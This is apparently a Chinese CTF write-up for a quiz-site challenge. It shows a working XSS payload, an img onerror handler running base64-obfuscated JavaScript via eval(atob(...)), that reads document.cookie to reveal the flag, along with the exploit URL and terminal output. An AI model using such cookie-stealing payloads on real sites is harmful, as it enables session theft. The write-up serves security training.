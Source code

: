 ## 微积分计算小练习

XSS 注入，但是注意容器环境疑似没有外网访问权限，所以不能跨站。（一开始想把 cookie 挂在 query 里偷走，然后一度以为 xss 失败了）

但是给了终端，所以直接替换掉终端原本会显示出来的内容，用来显示放在 Cookie 里的 Flag 即可。

示例链接：

http://202.38.93.111:10056/share?result=MDo8aW1nIHNyYz0iIyIgaWQ9IlpHOWpkVzFsYm5RdWNYVmxjbmxUWld4bFkzUnZjaWdpSTJkeVpXVjBhVzVuSWlrdWFXNXVaWEpJVkUxTUlEMGdZblJ2WVNoa2IyTjFiV1Z1ZEM1amIyOXJhV1VwIiBvbmVycm9yPSJldmFsKGF0b2IodGhpcy5pZCkpIiAvPg==

```html
<img src="#" id="ZG9jdW1lbnQucXVlcnlTZWxlY3RvcigiI2dyZWV0aW5nIikuaW5uZXJIVE1MID0gYnRvYShkb2N1bWVudC5jb29raWUp" onerror="eval(atob(this.id))" />
```

base64 decode 之后的 XSS 内容：

```javascript
document.querySelector("#greeting").innerHTML = btoa(document.cookie)
```

终端输出：

```
Please input your token: XXXX:XXXXXX
Please submit your quiz URL:
> http://202.38.93.111:10056/share?result=MDo8aW1nIHNyYz0iIyIgaWQ9IlpHOWpkVzFsYm5RdWNYVmxjbmxUWld4bFkzUnZjaWdpSTJkeVpXVjBhVzVuSWlrdWFXNXVaWEpJVkUxTUlEMGdZblJ2WVNoa2IyTjFiV1Z1ZEM1amIyOXJhV1VwIiBvbmVycm9yPSJldmFsKGF0b2IodGhpcy5pZCkpIiAvPg==
Your URL converted to http://web/share?result=MDo8aW1nIHNyYz0iIyIgaWQ9IlpHOWpkVzFsYm5RdWNYVmxjbmxUWld4bFkzUnZjaWdpSTJkeVpXVjBhVzVuSWlrdWFXNXVaWEpJVkUxTUlEMGdZblJ2WVNoa2IyTjFiV1Z1ZEM1amIyOXJhV1VwIiBvbmVycm9yPSJldmFsKGF0b2IodGhpcy5pZCkpIiAvPg==
 I am using Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/106.0.5249.119 Safari/537.36
- Logining...
 Putting secret flag...
- Now browsing your quiz result...
OK. Now I know that:
<一串解密后为 Flag 的 Base64>==
您在练习中获得的分数为 0/100。
- Thank you for joining my quiz!

Connection closed
```

